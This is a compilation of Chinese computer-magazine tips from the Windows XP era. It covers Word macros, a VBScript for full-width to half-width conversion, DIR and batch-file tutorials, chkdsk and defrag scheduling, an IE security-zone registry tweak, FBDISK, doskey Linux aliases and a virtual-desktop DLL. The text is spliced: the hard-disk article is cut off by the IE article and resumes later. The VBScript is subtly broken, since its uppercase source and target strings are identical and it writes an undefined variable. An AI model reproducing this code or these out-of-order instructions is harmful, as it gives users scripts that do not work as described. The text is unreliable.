在 Word 中，如果句子末尾的句号后没有空格，则使用“更改大小写”功能无法完成大小写的转换。第二步和第三步就是为了将所有的句末都变为句号+空格的形式。

**大虾的方案:我要一键转换**
第一步:打开 Word，选择菜单“工具→宏→录制新宏”，在“录制宏”窗口中的“宏名”中输入“英语作文句首字母大写”，在“将宏保存存在”下拉框中选择“所有文档(Normal.dot)”，点击“确定”按钮开始录制(见图 1)。



第二步:按照上文中“菜鸟的方案”，完成一遍所有操作(注意，在“查找和替换”窗口中弹出的提示窗使用回车键关闭)。点击宏录制控制窗口(见图 2)中的停止按钮(即最左边的小方块)，完成宏录制。


第三步:选择菜单命令“工具→自定义”，选择“命令”标签，点击窗口底部的“键盘”按钮，在弹出的“自定义键盘”窗口的“类别”列表中选择“宏”，右侧的“宏”列表中选择刚才新建的“英语作文句首字母大写”，将光标定位在“请按新快捷键”输入框内，键入一个快捷键(如 F2)，点击“关闭”。
第四步:以后在写英语作文时，直接复制到 Word 中并点击第三步中设置的快捷键即可完成一键转换。

### 任务 2:全半角转换

**大虾:用 Word 一样可以完成**
第一步:打开 Word，将网上文章中全角英文形式的注册表位置复制入 Word 编辑框中。
第二步:全选要转换的文本，选择菜单“格式→更改大小写”，在弹出窗口中选中“半角”，点击“确定”按钮即可完成转换。

**菜鸟:我的 MM 没有安装 Word，于是……**
第一步:在“记事本”中新建一个 convert.vbs，输入以下代码(为方便读者使用，我们已将该文件上传，可从 http://www.newhua.com/cfan/200504/convert.vbs 下载):

```
Set objFSO = CreateObject("Scripting.FileSystemObject")
Set objFile = objFSO.OpenTextFile("text.txt",1)
Set objOut = objFSO.CreateTextFile("extext.txt",True)
Do Until objFile.AtEndOfStream
text = objFile.Read(1)
if text <> "" then
CALL convertstr(text)
end if
objOut.Write(strCharacters)
Loop
function convertstr(content)
Dim SBC,halfSBC,DBC,halfDBC
SBC = "ＡＢＣＤＥＦＧＨＩＪＫＬＭＮＯＰＱＲＳＴＵＶＷＸＹＺ‘＂"
halfSBC = "ＡＢＣＤＥＦＧＨＩＪＫＬＭＮＯＰＱＲＳＴＵＶＷＸＹＺ‘＂"
DBC = "ａｂｃｄｅｆｇｈｉｊｋｌｍｎｏｐｑｒｓｔｕｖｗｘｙｚ"
halfDBC = "abcdefghijklmnopqrstuvwxyz"
Dim S(27),hS(27),D(26),hD(26)
for i = 1 to 27
S(i-1) = mid(SBC,i,1)
hS(i-1) = mid(halfSBC,i,1)
content = replace(content,S(i-1),hS(i-1))
D(i-1) = mid(DBC,i,1)
hD(i-1) = mid(halfDBC,i,1)
content = replace(content,D(i-1),hD(i-1))
next
content = replace(content,chr(13)&chr(10),"<br>")
content = replace(content," ","")
contentstr = content
objOut.write("")
objOut.write(contentstr)
end function
```

第二步:将需要转换的文本保存为 text.txt 保存在 convert.vbs 所在的目录中，双击执行 convert.vbs。
第三步:脚本会在此目录下生成一个 extext.txt，用“记事本”打开即可看到已转换为半角的文本。

(成都 李超)

## 步步为营 轻松玩转DIR命令
### 菜鸟命令入门

适宜人群:没有DOS基础的初学者
本期命令:dir
学习目标:学会使用dir命令列出目录和文件

很多菜鸟都会疑惑，在Windows下可以打开“我的电脑”显示目录和文件，但在“黑乎乎”的命令行窗口中，应该怎么查看(列出)目录和文件呢? 这就需要使用DOS命令——dir。dir命令就像一个军队里的指挥官，他一声令下，所管辖的士兵就得按照他的要求排列、报数。通过dir命令后的参数，我们可以让这些士兵(文件)按各种方式排列(按文件大小排列、按字母顺序排列等)。

+   任务1:列出c:\windows下的目录及文件
dir c:\windows

命令讲解:dir命令最基本的使用方法即为“dir 要查看的目录或路径”，但这种方法有明显的缺点——当列表中的目录及文件过多时就无法完全显示，形如刷屏，我们来看看任务2是怎么解决这个问题的。

+   任务2:分页列出c:\windows下的目录及文件
dir c:\windows /p

命令讲解:在刚才的基本使用方法的基础上，我们在命令最后加上一个参数“/p”(即“page”页的缩写)，列文件时就会使用分页显示方式，即列出一屏的目录及文件后，提示“按任意键继续...”，按任意键后则显示下一屏(见图1)。在“我的电脑”中可以通过勾选“文件夹选项”中的“显示隐藏文件”复选框来查看隐藏文件，在命令行方式下应该怎么做呢?



+   任务3:列出c:\windows下的隐藏文件
dir c:\windows /a:h

命令讲解:在命令的最后加上参数“/a:文件属性”，就能显示出指定属性的文件(隐藏文件的属性为“h”，目录为“d”，系统为“s”，只读为“r”)。但有的时候我们想看看目录下是否有一个特定名称的文件，却被文件列表中密密麻麻的文件名给挑花了眼。怎么才能让文件能够像英文字典似的以字母顺序排列，以便于我们查找文件呢?

+   任务4:以字母顺序列出c:\windows下的目录及文件
dir c:\windows /o:n (见图2)



命令讲解:“/o:排序方式”参数指定了dir命令显示命令结果时的排序方式，排序方式设为“n”即代表按照文件名的字母顺序排列(从A~Z，以此类推)。

+   小提示
★我们也可以指定排序方式为按照文件扩展名的字母顺序(如:dir c:\windows /o:e)来找出特定扩展名的文件，同样的，还可以使用文件大小等方式进行排序。
★“/o”和“/a”可以省略其后的冒号“:”，但之间不能留有空格，如“/o:n”省略后的形式应为“/on”。

### 中级老鸟做脚本

适宜人群:有一定DOS基础的用户
本期脚本:制作用户指定的任意格式文件列表清单

脚本说明:每个人都有很多个人编辑或收藏的文件，如文本文件、Office文档、图形图像、音频视频文件。久而久之，文件越积越多，查找起来既费时又费力(见图3)。为便于文件检索，有时需要制作一份文件列表清单。为叙述方便，假设文件保存于目录D:\myfolder，列表清单文件保存为C:\list.txt。如果需要保存在其他目录中，可在代码中用该目录名替换D:\myfolder即可。



+   * 以下任务中的代码在Windows 9x/Me/2000/XP/2003下通用。

+   任务1:列出D:\myfolder目录下扩展名为DOC的文件清单
第一步:打开“记事本”，输入下列内容并保存为MakeList.bat批处理脚本文件放置在D:\myfolder目录:

```
@echo off
dir /o:n /b *.doc > c:\list.txt
```

脚本讲解:关闭命令回显(关于回显命令echo可参考上期的《DOS快餐店》)，按名称(字母顺序)输出文件扩展名为doc的文件列表清单，保存到c:\list.txt。

+   小提示
★ dir命令使用参数“/b”则表示只列出文件名。
★ 重定向符号“>”表示将其左侧的命令的输出结果(如上文即为dir命令列出的文件)写入到其右侧的文件中去。

+   第二步:打开目录D:\myfolder，双击MakeList.bat文件，运行该批处理脚本文件。

+   第三步:用“记事本”打开C:\list.txt文件，即可查看D:\myfolder目录下所有Word文档的列表清单(见图4)。



Just do it
替换批处理脚本文件的“doc”为其他文件扩展名，如“xls”则列出Excel文档。
这段脚本让我们能够很方便地生成目录下的文件清单，可是每次要生成清单前都必须将该脚本文件复制到要生成清单的目录下，这未免有些麻烦。能不能让脚本文件能够像DOS命令那样支持参数呢?

+   任务2:支持参数的文件清单脚本
特别说明:该脚本的使用方法为“MakeList.bat 要列出的扩展名 进行操作的目录”(例如:MakeList txt c:\windows)。

+   第一步:打开记事本，输入下列内容，然后保存为“MakeList.bat”批处理脚本文件，可保存于任意文件夹，建议保存于“我的文档”、“C:\”文件夹或其他盘根目录下:

```
@echo off
if {%2} == {} (set mypath=) else set mypath=%2\
dir /on /b %mypath%*.%1 > c:\list.txt
if errorlevel 1 echo 命令格式:makelist [文件扩展名] [驱动器:][路径] > c:\list.txt
```

脚本讲解:首先关闭命令回显。如果(即脚本中的“if”)检测到第二个参数(%2表示第二个命令参数，即脚本进行操作的目录，为防止目录参数为空字串，须在其两边加上大括号“{}”)为空(即在使用命令时没有指定第二个参数，如:MakeList txt)，则删除上一次设置的mypath环境变量(如果有的话)，否则设置mypath环境变量(set命令用于设置环境变量)为参数末端加一反斜杆(即%2\，如%2这个参数的值为“C:\test”，则变为“C:\test\”)。最后按文件名称的字母顺序输出mypath中所含路径下指定扩展名(即由第一个参数%1指定)的文件列表清单文件。如果找不到文件或批处理命令参数错误，则输出提示信息(echo后面的即为错误提示)。

+   第二步:打开“命令提示符”(Windows 2000/XP/2003)或“MS-DOS方式”(Windows 9x/Me)窗口，将当前驱动器和目录改变到MakeList.bat批处理脚本文件所在目录。

+   第三步:假设现在要在目录D:\myfolder中列出文本文档(即*.txt)清单，则输入“makelist txt d:\myfolder”命令即可(不含引号)。如果当前工作驱动器和目录已是D:\myfolder，只要输入“makelist txt”命令，效果一样。

现在赶快打开C:\list.txt文件查看列表清单文件，是不是很棒?

+   小提示
★在命令行状态下执行批处理命令时，不必键入最后的“.bat”扩展名，因为BAT文件的优先级要高于EXE和COM文件(即如果同一目录下有a.bat、a.exe和a.com，在命令行下执行a，则系统会优先调用a.bat文件)。
★输入目录(包括根目录)参数时不要加反斜杆，如“C:\test”而不能使用“C:\test\”。
★如目录名中含有空格或长文件名，都必须在路径两边加上英文双引号，或者使用8.3规范(格式)。

### 高级专家来把脉

适宜人群:已掌握各条DOS命令的高级用户
把脉对象:让dir列出带有指定关键字的文件

诊断结果:即使指定了字母排序显示方式，要在dir命令的一大堆结果中找到所需的文件也是非常困难的，如果能让dir命令支持关键字就能解决这个问题了。

治疗方案:利用find命令配合找出dir命令结果中含有指定关键字的文件名。可以使用管道“|”将dir的输出作为其他命令的输入参数。使用通配符(*或?)指定要显示的文件名或目录名(例:“dir *.txt”、“dir ????fan.*”)。下面以找出c:\windows下文件名中带有“win”关键字的EXE文件为例解决这个问题。

```
dir c:\windows\*.exe|find "win"
```

命令讲解:使用dir命令列出c:\windows下的所有exe文件，再将这个输出结果通过管道传递给find命令，由其对结果进行二次加工，筛选出含有“win”关键字的那些行(find命令及管道的使用，我们将在今后的DOS快餐店中为大家详细讲解，敬请关注)。

+   小提示
要了解dir命令的更多参数，可以在命令行窗口中输入“dir/?”(不含引号，替换其中的“dir”可以获得其他命令的用法)即可。

（维克托电脑工作室 张宗闯）

## 硬盘，我要精心呵护你
### 为什么现在的硬盘这样脆弱？

★为什么现在的硬盘这么差，用不了多久就会出现坏道，甚至早早夭折！
★为什么我平时根本不装软件，电脑还是越用越慢！
这是我们经常听到的抱怨，其实仔细分析一下，其中的原因很容易就找出来了。首先，现在硬盘的质量并不是变差了，而是我们给它超出以前数倍，甚至是几十倍的负担和任务，游戏越来越大，软件体积膨胀，平时还要不停地进行下载和BT，硬盘几乎没有多少喘息机会，而硬盘转速的提高，热量又成为一大隐患。再加上我们或多或少的一些不良习惯(比如:强硬关机等)，硬盘哪能不生病呢？

而电脑越用越慢的问题，排除乱装软件等人为因素外，其中最大问题就在于磁盘碎片，我们遇到很多这样的故障，在整理磁盘碎片后，电脑又恢复了原来的生机。同时，过多的磁盘碎片也很容易导致硬盘积劳成疾。而且经过调查发现，许多办公室电脑系统变慢及硬盘易损坏的主要原因就是因为根本不整理磁盘碎片造成的。

### 呵护硬盘 你必须养成三个好习惯
#### 好习惯1:正确关机

Windows 2000/XP等基于NT内核的系统，其关机过程都是十分“漫长”的。很多心急的用户觉得遥遥无期的“正在关闭程序”实在难以忍受，以为已经死机了，就直接以电源方式关机了。
如果出现关机时长时间无响应的情况，应该怎么做呢：
首先按机箱上的Reset键重启电脑，然后等待Windows重启完毕，再以“开始→关闭计算机”方式关闭电脑。

> > **小提示**
> 如果经常出现关机缓慢的现象，可在关机前手动关闭所有打开的应用程序，禁用并退出杀毒软件的监控，再执行关机指令即可。

#### 好习惯2:定期检查并修正硬盘错误

电脑不可避免地会遇到死机等意外故障，在强行重启后硬盘中的文件系统有时会被破坏而发生问题，如:两个文件所占用的磁盘区域交错，文件分配表出现读取错误等。而且根据我们的经验，即使你的电脑平时没什么大故障，在使用一段时间后，文件系统依然会产生错误，因此定期使用Windows提供的Chkdsk命令(虽然许多人看不上Windows自带的工具，但这个命令确实比许多第三方工具更有效)对硬盘中的逻辑错误进行检查和修正非常重要。我们可以使用“批处理+计划任务”来完成此任务(以Windows 2000/XP为例)。

+   1. 用“记事本”新建一个批处理文件checkdisk.bat，在其中输入以下代码后保存：

@echo off
echo y| chkdsk c:/r
echo y| chkdsk d:/r

注意:以上代码假设硬盘中仅有两个分区C:和D:, 如有其他分区可在文件末尾加入相应代码。而“/r”参数的作用是检查并修复磁盘错误。
2. 点击“开始→设置→控制面板”，在“控制面板”中双击“任务计划”图标，在弹出窗口中双击“添加任务计划”。
3. 在“任务计划向导”中点击“浏览”，在弹出的文件选择框中选择刚才新建的checkdisk.bat批处理文件，点击“打开”，确认无误则点击“下一步”按钮。
4. 在任务名称中输入“检查硬盘”(便于记忆，也可输入其他名称)，在“执行这个任务”中选择执行任务的时间，如需要每周六检查硬盘，则选择“每周”(见图1)，点击“下一步”按钮。调整任务的“起始时间”(如“09:00”)，选择每“1”周，并勾选“星期六”后点击“下一步”按钮。
5. 在此步中需要输入运行此命令所需要的用户名和密码，注意在此步中建议使用管理员用户名(即Administrator用户)，否则可能导致命令运行不成功，点击“完成”结束任务添加(见图2)。



> > **小提示**
> ★在周六9:00时并不会立即开始检查硬盘，因为此时无法锁定硬盘,检查过程将在任务运行后的下一次启动时进行。
> ★如果不希望使用计划任务,可在命令行方式下手动执行 chkdsk x:/r 命令进行检查和修正。

#### 好习惯3:定期进行磁盘碎片整理

整理碎片前应进行的工作:清空IE临时文件、禁用杀毒软件的文件监控功能、尽可能地关闭所有已打开的应用程序、禁用屏保程序、关闭“还原精灵”等硬盘保护软件的保护功能(如安装了硬盘还原卡，则必须将其拔下并暂时卸载其驱动程序)。
很多朋友不愿意整理碎片的原因其实是:在目前动辄上百GB的大硬盘中，要整理一个分区往往要花上几十分钟甚至几小时的时间(特别是当采用Windows自带的“磁盘碎片整理程序”时更是如此)。白天整理觉得影响使用，而晚上整理又需要半夜起来手动干预(Windows 98支持“整理全部硬盘”，而Windows XP的“磁盘碎片整理程序”则没有整理所有磁盘分区的选项)，如果能在晚上让其自动整理所有磁盘呢？

#### (1)批处理+磁盘碎片整理程序

用“记事本”新建一个批处理文件autodefrag.bat，在其中输入以下代码后保存，夜间需要整理时双击执行即可(过程中无需手动干预):
for %%d in (c: d:) do defrag %%d /f

注意:以上代码假设硬盘中仅有两个分区C:和D:, 如有其他分区可在代码“(c: d:)”中加入相应的代码即可，例如“(c: d: e:)”。
★在夜间整理碎片无法在整理过程结束后再手动关机,可以在此批处理文件最后再加入一行关机命令:
shutdown -s





### 受了伤的硬盘 更要悉心呵护

由于我们平时的粗心大意，硬盘可能已经受了伤(出现了坏道)。如果再不加以保护，不久后这块硬盘就得跟你说Byebye了。如果硬盘被报告出现坏道，建议按照以下流程来拯救它。

#### 1.用厂商的磁盘工具修复

在硬盘出现坏道后，首先应该用“Chkdsk /r”命令尝试修复，如果是逻辑坏道，一般都能搞定。如果不行的话，最好到硬盘厂商的主页下载其检测工具，然后制作成软盘，对硬盘进行全面扫描和修复。

> > **小知识**
> 怎样辨别硬盘是否有坏道
> 1.打开、运行或拷贝某个文件时硬盘速度变慢，且有可能长时间操作还不成功或表现为长时间死“啃”某一区域或同时出现硬盘读盘异响，或干脆Windows系统提示无法读取或写入文件。
> 2.每次开机，磁盘扫描程序都会自动运行，并且报告有不正确的扇区。
> 3.电脑启动时无法从硬盘引导，用软盘或光盘启动后能看到硬盘盘符，但无法对其进行操作，或干脆无法看到盘符。具体表现如开机自检过程中，提示“Hard disk drive failure”、“Hard drive controller failure”或类似信息。可以判断为硬盘驱动器或硬盘控制器硬件故障。读写硬盘时提示“Sector not found”或“General error in reading drive C”等类似错误信息，则表明硬盘磁轨出现物理损伤。还有就是电脑在正常运行中出现死机或文件损坏等问题，也可能和硬盘坏道相关。

#### 2.用Windows XP安装盘的分区格式化工具

我们以前曾经介绍过这个由热心读者发现的秘技，使用Windows XP的安装光盘启动，当安装过程进行到选择分区时，根据提示依次选中已划分的分区并逐一删除(选中后按D键→按L键确认)。当所有分区都被删除后，再重新划分分区，完成后重新启动，有时就能将其他工具无法解决的故障给轻松解决了。

#### 3.用FBDISK自动屏蔽坏区

# 打开 IE 的第五道安全线

IE 是病毒、黑客、恶意网站最为“照顾”的对象，所以它的安全显得异常重要。今天我们来打通它的第五道安全防线，让你的系统更安全！

# 关于 IE 的四个安全区域

打开 IE 属性窗口，在“安全”选项卡中可发现 IE 将 Web 内容分为“Internet”、“本地 Intranet”、“受信任的站点”、“受限制的站点”四个不同安全区域。默认情况下，IE 将所有站点放在“Internet”区域并设置中等程度的安全级别加以保护，当要下载潜在的不安全内容时，系统就会给出提示(但不禁止不安全的行为，也就是说不安全的内容在用户确认后也是可以运行的)。当然，用户可以将完全信任或值得怀疑的 Web 站点放入其他三个安全区域中，比如：通常将 Windows Update 网站添加到“受信任的站点”，而一些恶意网站则可将其放到“受限制的站点”中。

# 开启 IE 的第五道安全线

其实 IE 除上面说的四个区域外还有一个被隐藏了的安全区域，而在默认情况下在 IE 的“安全”选项设置中并不显示出来，必须通过修改注册表打开它。

第一步：打开“注册表编辑器”，找到 [HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Zones]。

第二步：“Zones”项下的几个子项就是电脑中已经定义了的安全区域项，编号从 0 到 4 所对应控制的区域如下：

- 0 我的电脑
- 1 本地 Intranet 区域
- 2 可信站点区域
- 3 Internet 区域
- 4 受限站点区域

第三步：其中“我的电脑”不会出现在“安全”选项卡的“区域”框中，而控制这个属性的键为“Flags”(REG_DWORD 类型)，其值决定了用户能否修改安全区域的属性。要确定 Flags 值，可以将下面列出的相应设置所代表的数值相加(十进制，下同)：

| 值 | 对应的设置 |
|---|---|
| 0 | 禁止更改设置 |
| 1 | 允许更改自定义设置 |
| 2 | 允许用户向该区域中添加 Web 站点 |
| 4 | 需要经过验证的 Web 站点(https 协议) |
| 8 | 包括绕过代理服务器的 Web 站点 |
| 16 | 包括在其他区域中没有列出的 Web 站点 |
| 32 | 不在 Internet 属性中显示安全区域 |
| 64 | 显示“要求服务器验证”对话框 |
| 128 | 将通用命名连接(UNC)看作 Intranet 连接 |

例如：需要指定“允许更改自定义设置”和“显示‘要求服务器验证’对话框”，则应将 Flags 设置为 65(1 + 64)。

在默认情况下，“我的电脑”所对应的 Flags 值为 33，就是 1 + 32，因此无法在 IE 选项的“安全”设置中看到这个安全设置。

第四步：只要在原来的值上减去 32，即将这个值设置为 1(见图 1)，关闭注册表编辑器。右击 IE 选择属性，在“安全”选项卡中就能找到“我的电脑”了(见图 2)。

> ★只要将 Flags 所能设置的值中不包括 32 的数值均可以让开启 IE 的第五道安全线。
★“本地 Intranet 区域”对应的“Flags”默认值为 219，“可信站点区域”的则为 71，“Internet 区域”为 1，“受限站点区域”为 3，在需要时可根据上面的默认值进行恢复。

# 利用第五道安全线

# 1. 控制本地硬盘上的网页的安全性

在“Internet 选项”的“安全”选项卡下选中“我的电脑”，发现它所对应的“站点”和“默认级别”这两个按钮是灰色不可选的(可以通过修改其他注册表项来激活，但没有这个必要)。点击“自定义级别”按钮则可发现它的默认安全级别为“高”。在这里可以对在本地硬盘中用 IE 打开网页的行为进行设置，通常脱机浏览网页、打开本地硬盘/光盘中的网页就属于“我的电脑”这个安全区域所管辖的范围了。当然，这些已下载至本地的网页比起 Internet 上浏览的内容更接近系统，所以 IE 默认把它们设置为最高级别，我们可以通过更改此设置来调整本地硬盘上网页的安全级别。

# 2. 彻底禁止不该看的网页——隐藏“受限制的网站”

所有安全区域所对应的“Flags”都是不一样的，如果将其他几个“Flags”值加上 32，它们就不会在 Internet 属性中显示安全区域；利用这个特性，可以帮助我们彻底禁止不该看的网页，比如不想让小孩浏览那些不健康的网页，以前不少朋友只是通过简单的将这些网页地址放到不信任列表中，不过相信有一定电脑基础的孩子都能轻易打开 IE 属性将这些限制清除掉。不过，如果先将这个内容添加到“受限制的网站”列表中，然后再通过修改注册表隐藏这一安全区域，就能放心不少！步骤如下：

第一步：打开“注册表编辑器”，找到 [HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Zones\4]。

第二步：在右侧窗口中双击“Flags”键，将原来的 3(十进制)改为 35(十六进制则为 23)，退出编辑器即可。





如果实在没有办法把坏道修好，并不意味着你的硬盘从此报废了，其实只要将坏道屏蔽掉，就能让硬盘继续为你服役，不必担心坏道越来越多，而造成硬盘无法使用。

第一步：制作一张 DOS 启动盘，从 http://www.onlinedown.net/soft/37754.htm 下载 FBDISK 并解压至本地硬盘中，将其中的 fbdisk.exe 复制到启动盘中。

> ★在使用 FBDISK 前应该在主板的 CMOS 设置中将引导区保护功能禁用，以避免不必要的运行错误。

第二步：使用刚才准备的启动盘启动计算机(在 CMOS 里需要设置为软盘启动)，执行 A:\fbdisk.exe(假设刚才把 fbdisk.exe 复制到 A 盘根目录下)。

第三步：选择需要进行操作的硬盘，普通用户一般都只有一块硬盘，则选择“Disk 0”(强烈建议多硬盘用户将无需操作的硬盘暂时卸下，以免误操作导致数据丢失)。

第四步：程序提示“Start scan hard disk ?(Y/N)”，按 Y 键开始对硬盘进行扫描。在扫描过程中，程序会将发现的坏道信息以列表方式显示出来，包括坏道的位置和大小。在屏幕右下角显示了当前的进度和估计剩余时间(开始时估计不太准确，从 10% 后基本正常)。

第五步：扫描结束后，程序会根据坏道的分布情况计算出能够最大限度利用硬盘空间的分区方案，但遗憾的是只支持固定地划分为 4 个分区(均为 FAT32 格式)。提示“Write to disk ?(Y/N)”，按 Y 键接受此分区方案。

第六步：重启电脑，使用 Format 命令或其他工具(如 DM)对刚才划分的分区进行完全格式化(建议不要使用快速格式化)，如果格式化过程中未提示错误，那恭喜你，你的硬盘重生了！

> ★FBDISK 不支持 136GB 以上的大硬盘。
★在使用其他磁盘分区工具对硬盘进行操作时，如提示仍有尚未划分的空间请勿将其分配为可用空间，否则坏道屏蔽即失效了。

(猫狸小五狼)

# 让 Windows 支持 Linux 命令

很多朋友都对 Linux、FreeBSD 等基于命令行字符界面的操作系统抱有好奇，始终跃跃欲试却又不敢安装。虽然可以利用 VM 等虚拟机软件安装，但为了尝试一把黑客的感觉而劳师动众地安装 VM、安装 Linux，实在有些不甘心。有没有办法让 Windows 的命令行支持 Linux 命令呢(以下代码在 Windows 2000/XP 中测试通过)?

第一步：打开“记事本”，输入以下代码保存到 c:\windows 目录下(Windows 2000 则保存到 c:\winnt 下，在注册表中的键值也需换成相应的路径)并将其命名为 cmdlinux.cmd(为方便读者，我们已将该文件上传，可从 http://www.newhua.com/cfan/200506/cmdlinux.rar 下载)。

```
@cls
@echo off
@color 2
@prompt Win32CMD-Linux [$p] $b$t$b$_-bash-2.05b#
@doskey ls=dir $*
@doskey pwd=cd $*
@doskey mkdir=md $*
@doskey rmdir=rd $*
@doskey rm=del $*
@doskey mv=move $*
@doskey cp=copy $*
@doskey cat=type $*
@doskey clear=cls
@doskey uname=ver
@doskey id=whoami
@doskey w=quser
@cls
@echo on
```

第二步：打开“注册表编辑器”。找到 [HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Command Processor]，将窗口右侧的“AutoRun”的键值修改为“c:\windows\cmdlinux.cmd”(不含引号，Windows 2000 则修改为“c:\winnt\cmdlinux.cmd”)。

第三步：运行命令行窗口试试，在 Windows 下享受 Linux 的乐趣吧！

(手持 AK 的狸)

# 我与超级兔子的恋爱史

初次相遇很浪漫

像往常一样在网上冲浪，但在打开一个网页时，本来慢吞吞打开的窗口竟刷地一闪。仔细一瞧，原本打开多个网页的浏览器窗口竟一下全关闭了，露出空荡荡的桌面。我感觉事情不妙，马上断开网络连接，双击系统托盘中的“诺顿”图标。可是这时桌面却自动弹出了网络连接对话框，手动关闭后又弹出，而任务栏上的拨号连接图标也变成了“声音管理器”图标，关闭后弹出“记事本”图标样式的拨号连接（难说不是传说中的“魔术”）。无奈之下暂时抛开这个拨号连接，马上用“诺顿”进行全面系统扫描，经过漫长的等待（扫描速度简直让人不堪忍受），病毒扫描完成，竟未发现病毒感染。

正在我一筹莫展时，忽然想起刚从网上下载了“超级兔子魔法设置”（本文截稿时该软件的最新版本为6.6），马上双击安装之，我和她的第一次亲密接触终于开始了。



- 第一步：双击桌面上的“超级兔子魔法设置”图标，在软件主界面左侧选择“超级软件”标签，在右侧点击“超级兔子IE修复专家”。
- 第二步：在弹出向导中选择“检测及清除：木马、恶意网站程序，恢复IE设置”并点击“下一步”，笔者果然发现了可疑开机程序“C:\windows\htpatch\winup()”以及“可疑初始化程序”。
- 第三步：执行“下一步”，点击“完成”，就这样短短几分钟的时间就把恶意程序搞定了，系统从此恢复正常。

小提示

当以上方法仍无法解决时，软件的注册用户可以通过向导中的“保存状态”选项生成IE设置的状态文件并发送给软件作者，在收到回复后利用向导的“最终解决”将作者反馈的解决方案导入后即可修复。如果是未注册用户，则可使用免费的同类软件（如HijackThis）生成状态列表并发在大论坛中，自有热心的高手会替你解决。

## 偶尔出现的感情问题

### 1. 设置切忌囫囵吞枣

自从上次体验到了“超级兔子”的强大功能，一直想对系统进行优化却苦于无从下手的我这时仿佛找到了“救命稻草”，不加思索地在各个选项中设置了一番。重启后看到系统托盘中的小图标逐个复位，鼠标指针由忙碌变成了箭头，刚想拿起鼠标指点一番看看效果如何，可系统却愣是没反应（假死状态），直到约2分钟后才恢复了正常。经过数次重启后问题依旧，渐渐冷静下来的我意识到可能是开机时加载的启动项造成的，我该怎么挽救系统呢？

第一步：点击“开始→运行”，在输入框中输入“msconfig”并回车，打开“系统配置实用程序”（Windows 2000中没有此程序，你可以复制Windows XP的“Windows\pchealth\HelpCtr\Binaries”目录下的“Msconfig.exe”到Windows 2000所在分区的“Winnt\System”、“Windows\help”目录下的“Msconfig.chm”到Windows 2000的“Winnt\Help”目录）。

第二步：选择“启动”选项卡，在列表中发现了一个没有见过的启动项“SRREST”。用系统的“搜索”后发现该文件在超级兔子的安装目录下，双击打开才露出它的庐山真面目——原来是“超级兔子系统备份”。

第三步：在“超级兔子系统备份”主界面的左侧点击“选项”，发现右侧有一个复选框“每天第一次开机自动保存注册表”被勾选。顿时恍然大悟，去除勾选后点击“下一步”完成设置，重启后故障解决。

回头想想，这些问题都是自己对软件的选项不甚了解造成的，可下面的事应该怪谁呢？

### 2. 盲目给系统“减肥”带来的烦恼

在CFAN上曾经有一篇文章《系统慢，可能是你的文件太多了》，看了之后觉得颇为受益。想起“超级兔子”中有一个“清除硬盘无用文件”的功能。于是又手痒起来，结果光是系统盘（C:）就找出了100多项，在界面左侧提示“清除的无用文件放在回收站，需要的时候你仍然可以恢复它，等到系统无碍时再清空”。一听这话就觉得心里没底，再一看这100多项待清理文件，觉得其中Documents and Settings目录下的文件好像不太重要，就决定拿它开刀。不料第二天一开机，一个久违的蓝屏伴随着一段陌生的英语提示顿时映入眼帘。无疑，这是盲目给系统减肥所带来的后遗症，我的系统难道就此崩溃了吗？

首先在开机时按住F8进入“高级启动选项”菜单，选择“最近一次的正确配置”这一项启动了电脑。在“回收站”中恢复了删除的文件，故障终于解决。

### 3. 小心兔子带来的垃圾

还有一次，无意在C盘根目录下发现两个文本文件，每个都有46.5MB。真可谓是庞然大物，打开一看，里面都是X，一看日期，那天好像是用超级兔子测试硬盘了，由于不确定就又测了一次，这一测果然是超级兔子弄出的垃圾，哪能容忍它占用宝贵的系统盘，马上删掉。

# 1个DLL - 虚拟桌面

如果当你面对19英寸屏幕仍觉得不够用，那你绝对应该试试虚拟桌面。怕麻烦、懒得安装，种种理由却又限制了我们使用虚拟桌面。你仍对繁琐的安装和设置感到头痛的话，就来试试这款只有1个DLL文件却功能异常强大的虚拟桌面——MSVDM。

## 轻松的下载与安装

- 第一步：从http://www.newhua.com/cfan/200506/msvdm.rar下载MSVDM，并解压至本地硬盘中，接着将解压目录中的msvdm.dll复制到%systemroot%\system32中。
- 第二步：点击“开始→运行”，在“运行”输入框中输入一行命令并回车：regsvr32 msvdm.dll。如果弹出一个对话框“msvdm.dll中的DllRegisterServer成功”，则命令运行成功。
- 第三步：右击任务栏，选择菜单“工具栏→MSVDM”，这样MSVDM就方便地在你的任务栏出现了。

```
regsvr32 msvdm.dll
```

## 虚拟桌面初上手

当MSVDM出现在你的任务栏后，点击MSVDM工作区图标（即四个标有数字的小圆按钮，分别代表“工作区1”、“工作区2”……）。我们可以在工作区1处理文档、工作区2上网冲浪，只须简单地点击相应的工作区图标就可切换到该工作区并对其进行独立的窗口操作（见图1）。



## 工作区切换越快越好

如果单纯的鼠标点击并不能满足你快速切换工作区的需要，那么为每个工作区设置一个快捷键吧。

第一步：右键单击MSVDM，在弹出菜单中选择“Configure Shortcut Keys”。

第二步：在弹出的“MSVDM Settings”窗口中，默认已切换至“Shortcut Keys”选项卡，在其中即可为各个工作区（包括“全局浏览”）设置快捷键（见图2）。

## 工作区也讲究“个性化”

既然已经将桌面分成了四个工作区，那么根据其不同的用途我们也应该为其设置一个合适的桌面。GG们大可以放心地将靓女图片设为桌面背景，MM一来我们只须按下快捷键切换到另一个工作区即可。

第一步：右键单击MSVDM，在弹出菜单中选择“Configure Desktop Images”。

第二步：在弹出的“MSVDM Settings”窗口中，默认已切换至“Desktop”选项卡。在左侧的预览区选择需要设置桌面背景的工作区，接着在右侧的“桌面背景”列表框中选择一幅合适的图片作为桌面即可（如果需要采用列表中没有的图片作为背景，可以点击“桌面背景”列表框下方的“浏览”按钮）。

第三步：如果图片的大小与屏幕显示大小不太匹配，可以在下方的“位置”下拉列表中选择“Stretch”（拉伸），最后点击“确定”按钮保存设置。

小编有话说：原本以为要实现虚拟桌面各个工作区的自定义背景一定会消耗很多系统资源并导致响应缓慢，可是经测试，使用MSVDM进行工作区切换时桌面背景的切换几乎是同步的，速度非常快。

小提示

在需要卸载MSVDM时，可以首先右键单击桌面下方任务栏中的MSVDM，在弹出菜单中选择“工具栏”，然后取消其下MSVDM的勾选。接着点击“开始→运行”，在“运行”输入框中输入以下命令并回车：regsvr32 msvdm.dll /u。如果弹出一个对话框“msvdm.dll中的DllUnregisterServer成功”，则说明卸载完成。

```
regsvr32 msvdm.dll /u
```

（黑龙江 仲崇阳）

（猫狸小五狼）

# 笔记本就要随需应变

办公室网络环境:局域网
